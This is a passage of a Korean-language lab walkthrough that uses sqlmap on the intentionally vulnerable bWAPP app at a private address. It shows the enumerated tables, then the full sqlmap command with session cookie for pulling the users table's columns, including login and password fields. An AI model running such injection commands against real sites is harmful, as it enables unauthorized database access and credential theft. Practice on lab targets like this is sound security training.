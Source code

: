 ```bash
[18:11:00] [INFO] retrieved: 5
[18:11:00] [INFO] retrieved: blog
[18:11:01] [INFO] retrieved: heroes
[18:11:02] [INFO] retrieved: movies
[18:11:02] [INFO] retrieved: users
[18:11:03] [INFO] retrieved: visitors
Database: bWAPP
[5 tables]
+----------+
| blog     |
| heroes   |
| movies   |
| users    |
| visitors |
+----------+

[18:11:04] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.190.143'

[*] shutting down at 18:11:04
```

* 테이블 이름들을 알았으니 이제 column들을 추출해야함

4. users columns를 추출하기

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_4.php?title=test&action=search" --cookie="PHPSESSID=b7269975b579606d86426fca0c3b0e56;security_level=0"  -D bWAPP -T users --columns
```

```bash
Database: bWAPP
Table: users
[9 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| activated       | tinyint(1)   |
| activation_code | varchar(100) |
| admin           | tinyint(1)   |
| email           | varchar(100) |
| id              | int(10)      |
| login           | varchar(100) |
| password        | varchar(100) |
| reset_code      | varchar(100) |
| secret          | varchar(100) |
+-----------------+--------------+

[18:14:09] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.190.143'

[*] shutting down at 18:14:09
```
